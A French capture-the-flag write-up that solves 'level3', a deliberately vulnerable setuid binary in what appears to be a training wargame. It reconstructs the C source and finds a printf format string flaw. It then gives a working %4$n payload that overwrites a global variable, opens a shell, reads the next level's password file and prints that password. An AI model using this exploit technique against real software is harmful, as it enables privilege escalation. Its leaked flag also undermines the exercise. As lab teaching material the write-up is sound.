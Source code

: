 Je commence par découvrir qui je suis, où je suis, et qu'est-ce qui est à ma disposition :

```bash
$ id && pwd && ls -la
uid=2022(level3) gid=2022(level3) groups=2022(level3),100(users)
/home/user/level3
total 17
dr-xr-x---+ 1 level3 level3   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level3 level3  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level3 level3 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level4 users  5366 Mar  6  2016 level3
-rw-r--r--+ 1 level3 level3   65 Sep 23  2015 .pass
-rw-r--r--  1 level3 level3  675 Apr  3  2012 .profile
```

Je tente de lancer le binaire level3 :

```bash
$ ./level3
(waiting for input)
$ ./level3
da
da
```

Je recoupe l'analyse ASM du binaire avec GDB des résultats obtenus sur [Dogbolt](https://dogbolt.org/?id=b1a5a447-06b3-402d-a740-453263922d7a) et en extrait une version probable du code :

```c
int m;

void v()
{
    char buffer[512];
    fgets(buffer, 512, stdin);
    printf(buffer);

    if (m == 64)
    {
        fwrite("Wait what?!\n", 1, 12, stdout);
        system("/bin/sh");
    }
}

int main()
{
    v();
}
```

Ici, il semble être question de modifier la valeur de `m` dans le code afin de passer le `if` et ouvrir un shell.

Je note que `fgets()` n'est pas la source de vulnérabilité car c'est une version protégée de `gets()` mais que `printf()`, qui lit notre input et l'imprime, présente une vulnérabilité possible connue sous le nom de [Format String Attack](https://owasp.org/www-community/attacks/Format_string_attack).

Il s'agit ici d'utiliser le flag de conversion `%n` :

```bash
Parameters 	Output 	                                        Passed as
...         ...                                             ...
%n 	        Writes the number of characters into a pointer 	Reference
```

Il me faut donc, dans l'espace qui m'est fourni par le buffer et la limite de `fgets()`, écrire à l'adresse de la variable `m`.

Pour cela, je dois composer un payload infecté composé de :

- l'adresse de la variable `m` dans la fonction `v()`
- 64 caractères à écrire que %n va utiliser pour écrire le pointeur
- puis l'appel à `%n`

Etant donné que nous ne passons aucun argument à `printf`, ce dernier va lire la stack comme argument. Pour trouver "où" se trouve le pointeur de la variable `m` dans la stack pour `printf` lorsque je lui passe l'adresse de `m`, j'utilise l'astuce suivante :

```bash
$ python -c 'print("a %x %x %x %x %x %x")' | ./level3
a 200 b7fd1ac0 b7ff37d0 78252061 20782520 25207825
                               ^

$ python -c 'print("b %x %x %x %x %x %x")' | ./level3
b 200 b7fd1ac0 b7ff37d0 78252062 20782520 25207825
                               ^
```

J'identifie que le 4eime argument dans l'appel de `printf` représente le 'premier' dans la string passé à `printf`.

Cela m'indique que l'appel à `%n` nécessitera un 'shift' de 4 (écrit: `%4$n`) pour signifier que les 64 bytes écrit avant cet appel doivent être stocké dans le "4eime" argument, qui sera en fait l'adresse de la variable 'm', j'illustre ce propos avec le payload suivant :

```python
python -c 'print("\x08\x04\x98\x8c"[::-1] + "\x90" * 60 + "%4$n")'
```

Note: vu que j'écris déjà 4 bytes pour l'adresse de 'm', je n'ai donc que 60 à écrire avant pour atteindre le total de 64 bytes, et ce sera la valeur écrite donc dans le "4eime" (1er dans printf) argument, qui pointe donc sur : `0x0804988c`

Cette adresse est trouvée en utilisant `gdb` :

```h
(gdb) disas v
Dump of assembler code for function v:
...
   0x080484d5 <+49>:    call   0x8048390 <printf@plt> <- on observe le printf
   0x080484da <+54>:    mov    0x804988c,%eax <- met l'adresse de m dans %eax
   0x080484df <+59>:    cmp    $0x40,%eax <- compare %eax a 0x40 -> 64
...
```

J'exécute mon payload :

```bash
$ (python -c 'print("\x08\x04\x98\x8c"[::-1] + "\x90" * 60 + "%4$n")' && echo 'cat /home/user/level4/.pass') | ./level3
�������������������������������������������������������������
Wait what?!
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```